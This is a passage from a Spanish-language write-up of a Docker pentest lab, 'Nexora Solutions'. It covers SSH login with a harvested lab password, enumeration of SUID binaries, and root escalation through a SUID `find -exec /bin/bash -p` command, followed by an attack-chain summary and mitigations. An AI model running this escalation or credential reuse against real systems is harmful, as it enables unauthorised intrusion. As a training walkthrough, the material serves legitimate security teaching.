Una vez dentro, hemos encontrado un panel que expone información sensible de todos los usuarios, incluyendo sus contraseñas en texto claro.

Entre las cuentas disponibles hemos identificado al usuario `analista`, cuyo rol de administrador de sistemas lo convierte en un candidato especialmente interesante para continuar el ataque.

En la siguiente fase utilizaremos estas credenciales para intentar acceder mediante SSH al servidor interno de Nexora Solutions.

## 6. Acceso SSH al servidor interno

Tras acceder al panel de administración de la intranet, hemos conseguido obtener las credenciales de diferentes usuarios de Nexora Solutions.

Entre ellos destaca `analista`, cuya cuenta pertenece al departamento de Infraestructura y tiene asignado el rol de administrador de sistemas.

Durante el reconocimiento de la red interna descubrimos que el segundo servidor también tenía abierto el puerto **22/TCP (SSH)**. Por tanto, intentaremos utilizar las credenciales obtenidas para acceder a él.

### 6.1. Conexión SSH

Desde la reverse shell de `web-01`, ejecutamos:

```bash
ssh analista@172.25.0.3
```

Cuando el servicio SSH solicita la contraseña, introducimos la encontrada anteriormente en el panel de administración:

```text
AnalistaLab2026!
```

Si las credenciales son correctas, conseguimos establecer una sesión SSH en el servidor interno.

> **Nota:** la dirección IP puede variar dependiendo de las redes asignadas por Docker. Debemos utilizar la dirección identificada durante la fase de reconocimiento.

### 6.2. Comprobación del acceso

Una vez dentro, comprobamos nuestra identidad:

```bash
whoami
```

Obtenemos:

```text
analista
```

También podemos consultar los identificadores y grupos asociados al usuario:

```bash
id
```

Esto confirma que hemos conseguido acceder al sistema operativo del segundo servidor como un usuario sin privilegios administrativos.

**Captura del acceso SSH:**



### 6.3. Conclusión

Hemos conseguido acceder al servidor interno utilizando las credenciales obtenidas mediante la explotación de la intranet.

Ahora disponemos de una sesión SSH como `analista`, desde la que podremos investigar la configuración del sistema e identificar posibles vías de escalada de privilegios.

---

## 7. Enumeración de permisos SUID

Una vez dentro del servidor interno, nuestro siguiente objetivo será identificar posibles configuraciones inseguras que permitan conseguir privilegios superiores.

Para ello comenzaremos examinando los archivos ejecutables que tienen habilitado el bit **SUID (Set User ID)**.

### 7.1. ¿Qué es el bit SUID?

El bit SUID es un permiso especial de Linux que permite ejecutar un archivo con los privilegios efectivos de su propietario, en lugar de utilizar únicamente los privilegios del usuario que lo ejecuta.

Este mecanismo resulta útil para determinados programas del sistema que necesitan realizar operaciones privilegiadas.

Sin embargo, cuando se aplica a ejecutables inadecuados, puede convertirse en una vulnerabilidad de escalada de privilegios.

### 7.2. Búsqueda de archivos SUID

Para localizar los ejecutables que tienen este permiso habilitado utilizamos:

```bash
find / -type f -perm -4000 2>/dev/null
```

**Explicación del comando:**

- `find /`: realiza una búsqueda desde la raíz del sistema.
- `-type f`: busca únicamente archivos.
- `-perm -4000`: identifica archivos que tienen activado el bit SUID.
- `2>/dev/null`: oculta los mensajes de error relacionados con permisos.

Al analizar los resultados encontramos varios ejecutables con este permiso.

Entre ellos destaca:

```text
/usr/bin/find
```

Este resultado resulta especialmente interesante, ya que `find` permite ejecutar comandos del sistema mediante el parámetro `-exec`.

**Captura de la enumeración:**



### 7.3. Comprobación de permisos

Para examinar los permisos del ejecutable identificado utilizamos:

```bash
ls -l /usr/bin/find
```

Obtenemos una salida similar a:

```text
-rwsr-xr-x 1 root root ... /usr/bin/find
```

Podemos observar dos detalles importantes:

1. El ejecutable pertenece al usuario `root`.
2. La letra `s` en los permisos del propietario indica que tiene habilitado el bit SUID.

En condiciones normales, `find` no necesita disponer de este permiso especial.

Sin embargo, en este laboratorio se ha configurado de manera intencionadamente insegura.

### 7.4. Conclusión

Durante la enumeración hemos identificado una configuración insegura en el ejecutable `/usr/bin/find`.

Como pertenece a `root` y tiene habilitado el bit SUID, podría permitirnos ejecutar comandos con privilegios elevados.

En el siguiente apartado intentaremos aprovechar esta configuración para conseguir una shell con privilegios administrativos.

---

## 8. Escalada de privilegios mediante SUID

Tras identificar el binario vulnerable, procederemos a explotarlo para conseguir privilegios de `root`.

Para ello aprovecharemos la capacidad de `find` para ejecutar comandos mediante su opción `-exec`.

### 8.1. Explotación del binario find

Ejecutamos:

```bash
/usr/bin/find . -exec /bin/bash -p \; -quit
```

**Explicación del comando:**

| Elemento | Función |
|---|---|
| `/usr/bin/find` | Ejecuta el binario que tiene habilitado SUID. |
| `.` | Indica el directorio actual como punto de partida. |
| `-exec` | Permite ejecutar un comando. |
| `/bin/bash -p` | Inicia Bash conservando los privilegios efectivos heredados. |
| `\;` | Finaliza la instrucción de `-exec`. |
| `-quit` | Detiene la búsqueda después de ejecutar el comando. |

La parte más importante es:

```bash
/bin/bash -p
```

El parámetro `-p` permite que Bash conserve los privilegios efectivos con los que ha sido ejecutado.

Como `/usr/bin/find` pertenece a `root` y tiene SUID habilitado, podemos aprovechar esta configuración para ejecutar Bash con privilegios efectivos de administrador.

### 8.2. Comprobación de privilegios

Una vez ejecutado el comando anterior, comprobamos nuestra identidad:

```bash
whoami
```

El resultado esperado es:

```text
root
```

Para obtener información más detallada ejecutamos:

```bash
id
```

Podemos observar que el identificador efectivo de usuario corresponde a `root`:

```text
uid=1000(analista) euid=0(root)
```

Esto significa que, aunque nuestro usuario real continúa siendo `analista`, ahora disponemos de los privilegios efectivos de `root`.

Por tanto, **hemos conseguido escalar privilegios dentro del servidor interno**.

**Captura de la escalada:**



### 8.3. Conclusión

Hemos conseguido aprovechar una configuración insegura de permisos SUID para obtener una shell con privilegios efectivos de administrador.

Esta vulnerabilidad demuestra la importancia de revisar los permisos especiales de los ejecutables del sistema y aplicar el principio de mínimo privilegio.

**Con esto completamos el objetivo principal del laboratorio Nexora Solutions.**

---

## 9. Conclusiones finales

A lo largo de este laboratorio hemos conseguido comprometer una infraestructura compuesta por dos servidores conectados mediante una red interna.

Para alcanzar nuestro objetivo, hemos encadenado diferentes vulnerabilidades y técnicas de pentesting.

### 9.1. Resumen de la explotación

El proceso completo ha sido el siguiente:

1. **Reconocimiento:** identificamos el servicio web mediante Nmap.
2. **Enumeración:** descubrimos los directorios `/upload` y `/uploads` utilizando Gobuster.
3. **Acceso inicial:** aprovechamos una validación insuficiente de archivos para ejecutar código PHP y obtener una reverse shell.
4. **Pivoting:** descubrimos un segundo servidor y establecimos un túnel SSH inverso para acceder a su intranet.
5. **SQL Injection:** conseguimos eludir la autenticación de la intranet.
6. **Exposición de credenciales:** obtuvimos el usuario y la contraseña de `analista` desde el panel administrativo.
7. **Acceso SSH:** utilizamos las credenciales encontradas para acceder al servidor interno.
8. **Escalada de privilegios:** aprovechamos el binario `/usr/bin/find` con permisos SUID para obtener privilegios efectivos de `root`.

### 9.2. Medidas de mitigación

Para evitar este tipo de vulnerabilidades en un entorno real, sería recomendable:

- Validar correctamente los archivos subidos y almacenarlos fuera de directorios ejecutables.
- Utilizar consultas SQL parametrizadas para evitar inyecciones.
- Almacenar las contraseñas mediante algoritmos de hashing seguros.
- Aplicar controles de acceso a los servicios y recursos internos.
- Limitar la comunicación entre servidores a los servicios estrictamente necesarios.
- Revisar los permisos SUID y eliminar aquellos que no sean imprescindibles.
- Aplicar el principio de mínimo privilegio.

### 9.3. Finalización

**Laboratorio completado correctamente.**

Nexora Solutions demuestra cómo la combinación de varias vulnerabilidades puede permitir a un atacante pasar de una aplicación web pública a comprometer un servidor interno.

El laboratorio permite practicar reconocimiento, explotación web, movimiento lateral, enumeración de sistemas Linux y escalada de privilegios en un entorno controlado y reproducible mediante Docker.